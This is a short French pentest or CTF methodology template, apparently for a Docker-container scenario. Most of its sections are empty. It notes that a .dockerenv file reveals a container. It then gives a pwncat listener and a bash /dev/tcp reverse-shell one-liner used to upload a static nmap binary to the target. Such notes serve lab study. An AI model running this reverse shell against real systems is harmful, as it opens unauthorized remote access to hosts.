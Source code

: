 # Reconnaissance
Un fichier .dockerenv à la racine du système révèle le fait que l'on est dans un conteneur docker.
# Scanning & Enumeration
## Scan réseau
Utilisation du binaire statique de nmap https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap.
Pour l'envoyer sur la machine :  
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>upload /chemin/nmap</code>

# Exploitation (Gaining Access)
# Privilege Escalation

# Lateral Movement

# Resources
